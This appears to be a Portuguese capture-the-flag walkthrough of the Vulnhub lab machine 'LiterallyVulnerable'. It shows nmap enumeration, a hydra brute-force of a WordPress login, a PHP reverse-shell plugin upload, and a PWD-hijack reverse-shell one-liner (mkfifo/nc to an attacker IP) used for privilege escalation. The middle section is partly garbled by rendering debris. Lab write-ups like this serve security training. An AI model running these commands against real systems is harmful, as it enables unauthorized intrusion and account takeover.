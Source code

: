 Vulnhub - LiterallyVulnerable

# Vulnhub - LiterallyVulnerable

## Enumeration

Após ligar a maquina, executado os comandos abaixo para enumeração da VM

```bash
dcruz@kali:/dcruz/fiap/literallyvulnerable$ nmap -p- -sC -sV -Pn -oA quick 172.30.2.216       
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-29 13:41 -03                               
Nmap scan report for literallyvulnerable.mshome.net (172.30.2.216)                            
Host is up (0.00020s latency).                 
Not shown: 65531 closed ports                  
PORT      STATE SERVICE VERSION                
21/tcp    open  ftp     vsftpd 3.0.3           
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                        
|_-rw-r--r--    1 ftp      ftp           325 Dec 04 13:05 backupPasswords                     
| ftp-syst:                                    
|   STAT:                                      
| FTP server status:                           
|      Connected to ::ffff:172.30.3.228        
|      Logged in as ftp                                                                       
|      TYPE: ASCII                             
|      No session bandwidth limit                                                             
|      Session timeout in seconds is 300                                                      
|      Control connection is plain text                                                       
|      Data connections will be plain text     
|      At session startup, client count was 3                                                 
|      vsFTPd 3.0.3 - secure, fast, stable     
|_End of status                                                                               
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)          
| ssh-hostkey:                                                                                
|   2048 2f:26:5b:e6:ae:9a:c0:26:76:26:24:00:a7:37:e6:c1 (RSA)                                
|   256 79:c0:12:33:d6:6d:9a:bd:1f:11:aa:1c:39:1e:b8:95 (ECDSA)                               
|_  256 83:27:d3:79:d0:8b:6a:2a:23:57:5b:3c:d7:b4:e5:60 (ED25519)                             
80/tcp    open  http    nginx 1.14.0 (Ubuntu)                                                 
|_http-generator: WordPress 5.3                                                                                                                                                             
|_http-server-header: nginx/1.14.0 (Ubuntu)                                                   
|_http-title: Not so Vulnerable &#8211; Just another WordPress site                           
|_http-trane-info: Problem with XML parsing of /evox/about                                    
65535/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                        
|_http-server-header: Apache/2.4.29 (Ubuntu)   
|_http-title: Apache2 Ubuntu Default Page: It works                                           
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                                

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.79 seconds                               
```

Scan todas as portas

```bash
dcruz@kali:/dcruz/fiap/literallyvulnerable$ nmap -A -p- -Pn -oA allPorts 172.30.2.216          
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-29 14:06 -03
Nmap scan report for literallyvulnerable.mshome.net (172.30.2.216)
Host is up (0.00028s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3 not vulnerable
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           325 Dec 04 13:05 backupPasswords
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.30.3.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2f:26:5b:e6:ae:9a:c0:26:76:26:24:00:a7:37:e6:c1 (RSA)
|   256 79:c0:12:33:d6:6d:9a:bd:1f:11:aa:1c:39:1e:b8:95 (ECDSA)
|_  256 83:27:d3:79:d0:8b:6a:2a:23:57:5b:3c:d7:b4:e5:60 (ED25519)
80/tcp    open  http    nginx 1.14.0 (Ubuntu)
|_http-generator: WordPress 5.3
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Not so Vulnerable &#8211; Just another WordPress site
|_http-trane-info: Problem with XML parsing of /evox/about
65535/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 13.65 seconds
```

Acessando o FTP de forma anonima realizado o download do arquivo backupPasswords, único arquivo existente, o qual possuia algumas senhas em seu conteúdo

- Directory listing do FTP

```bash
   
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Dec 04 13:05 .
drwxr-xr-x    2 ftp      ftp          4096 Dec 04 13:05 ..
-rw-r--r--    1 ftp      ftp           325 Dec 04 13:05 backupPasswords
226 Directory send OK.
ftp> exit
221 Goodbye.
```

- Conteúdo do arquivo de texto

```bash
dcruz@kali:/dcruz/fiap/literallyvulnerable/loot$ cat backupPasswords 
Hi Doe, 

I'm guessing you forgot your password again! I've added a bunch of passwords below along with your password so we don't get hacked by those elites again!

*$eGRIf7v38s&p7
yP$*SV09YOrx7mY
GmceC&oOBtbnFCH
3!IZguT2piU8X$c
P&s%F1D4#KDBSeS
$EPid%J2L9LufO5
nD!mb*aHON&76&G
$*Ke7q2ko3tqoZo
SCb$I^gDDqE34fA
Ae%tM0XIWUMsCLp
```

### Enum 80/TCP:

Identificado Wordpress 5.3 em execução, sem plugins ou RCE vuln conhecidas.
        - `wpscan --url http://literally.vulnerable -e vp,vt,u`
            - Encontrado uma vulnerabilidade de listar posts protegidos por senha, porem nenhum post alem do default foi retornado
            - Enumerado os users porém encontrado apenas o admin, para o qual as senhas existentes nenhuma teve êxito.
            - Enumerado site com `dirbuster/directory-list-2.3-medium.txt` porem diversos erros 301 estavam sendo retornados. Ao alterar os parametros do dirbuster para excluir o redirect 301 como sucesso, apenas algumas paginas já conhecidas do Wordpress foram retornadas.
            - Executado nikto e nenhum diretório interessante também foi retornado.
                ○ Enum 65535/TCP
                § Identificado pagina default do Apache2
                § Executado gobuster com dirbuster/directory-list-2.3-medium.txt porem nenhum diretório relevante foi encontrado
                § Executado dirbuster com a lista
                § Uma vez que a enumeração com esta lista não houve sucesso e SSH e FTP não são vulneraveis, realizado enumeração novamente com outra lista de diretórios, dirb/big.txt, onde os diretórios abaixo foram retornados:
                /.htpasswd (Status: 403)
                /.htpasswd.php (Status: 403)
                /.htaccess (Status: 403)
                /.htaccess.php (Status: 403)
                /javascript (Status: 301)
                /phpcms (Status: 301)
                /server-status (Status: 403)
                § Ao acessar a pagina /phpcmd, observados dois pontos importantes sobre esta instalação do Wordpress:
                □ Executado enumeração novamente com WPScan (wpscan --url http://literally.vulnerable:65535/phpcms -e vt,vp,u) e encontrado a mesma instalação do wordpress, porem com os users notadmin e maybeadmin
                § Para as contas encontradas, realizado bruteforce utilizando hydra conforme linha de comando abaixo:
                □ hydra -L users -P passwords literally.vulnerable -s 65535 -V http-form-post '/phpcms/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fliterally.vulnerable%3A65535%2Fphpcms%2Fwp-admin%2F&testcookie=1:incorrect'
                □ Found password \[65535\]\[http-post-form\] host: literally.vulnerable login: maybeadmin password: 
                
                $EPid%J2L9LufO5 § Ao acessar com a conta "maybeadmin" foi possível ler o post protegido, uma vez que o usuário "maybeadmin" não possui grandes permissões. No post está contida a senha do user notadmin:Pa$
                
                $w0rd13!& § Com acesso total ao wordpress, tentado incluir um shell reverso/rce na maquina porem o editor não retorna sucesso ao salvar arquivos. A alternativa seria realizar o upload de um novo plugin ou tema para esta finalidade □ Criado um arquivo zip contendo dois arquivos: ® PluginManifest ® Shell (php reverseshell pentest monkey) □ Após upload, navegado no caminho wp-content/plugins/ABC123/XPTO.php (caminho fisico do arquivo no wordpress), onde foi possivel obter um shell. § Após se conectar na maquina, executado LinEnum encontrado um arquivo configurado com SUID § Ao executar este arquivo, o mesmo mostra o PWD. § Ao realizar o hijacking do PWD, executado o comando export para popular o atributo □ export PWD='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.30.3.228 4443 >/tmp/f' § Neste novo shell, como John, foi possivel obter o arquivo user.txt john@literallyvulnerable:/home/john$
                
                KaTeX parse error: Expected 'EOF', got '&' at position 8: w0rd13!&̲ § Com acesso t…
                
                cat user.txt
                Almost there! Remember to always check permissions! It might not help you here, but somewhere else! ;)
                Flag: iuz1498ne667ldqmfarfrky9v5ylki
                § Enumerando os arquivos em /home que o usuário tem acesso, encontrado um arquivo chamado myPassword:
                john@literallyvulnerable:/home/john$ find /home -type f -readable 2> /dev/null
                /home/doe/.bash_logout
                /home/doe/.bashrc
                /home/doe/noteFromAdmin
                /home/doe/.profile
                /home/doe/itseasy
                /home/john/.bash_logout
                /home/john/.ssh/authorized_keys
                /home/john/user.txt
                /home/john/.bashrc
                /home/john/.local/share/tmpFiles/myPassword
                /home/john/.profile
                /home/john/.cache/motd.legal-displayed
                § Conteúdo do arquivo myPassword
                john@literallyvulnerable:/home/john$ cat /home/john/.local/share/tmpFiles/myPassword
                I always forget my password, so, saving it here just in case. Also, encoding it with b64 since I don't want my colleagues to hack me!
                am9objpZWlckczhZNDlJQiNaWko=
                § Decodificando a string, encontrado a senha
                □ john:YZW$s8Y49IB#ZZJ
                § Com o usuário e senha encontrados, foi possivel realizar o acesso via SSH com a conta john
                § Com a senha, executado o comando sudo -l foi possivel enumerar os seguintes comandos que a conta pode executar como root:
                □ /var/www/html/test.html
                § Criado como www-data, um bash para gerar um shell reverso e obtido shell root.
                § Output do arquivo /root/root.txt

```bash
cat root.txt 
It was
 _     _ _                 _ _         _   _       _                      _     _      _ 
| |   (_) |               | | |       | | | |     | |                    | |   | |    | |
| |    _| |_ ___ _ __ __ _| | |_   _  | | | |_   _| |_ __   ___ _ __ __ _| |__ | | ___| |
| |   | | __/ _ \ '__/ _` | | | | | | | | | | | | | | '_ \ / _ \ '__/ _` | '_ \| |/ _ \ |
| |___| | ||  __/ | | (_| | | | |_| | \ \_/ / |_| | | | | |  __/ | | (_| | |_) | |  __/_|
\_____/_|\__\___|_|  \__,_|_|_|\__, |  \___/ \__,_|_|_| |_|\___|_|  \__,_|_.__/|_|\___(_)
                                __/ |                                                    
                               |___/                                                     

Congrats, you did it! I hope it was *literally easy* for you! :) 
Flag: pabtejcnqisp6un0sbz0mrb3akaudk

Let me know, if you liked the machine @syed__umar
```

Como Root, executado update da indexação dos arquivos e aberto flag local.txt

```bash
root@literallyvulnerable:/root# cat /home/doe/local.txt 
Congrats, you did it! I hope it was *easy* for you! Keep in mind #EEE is the way to go!
Flag: worjnp1jxh9iefqxrj2fkgdy3kpejp
```
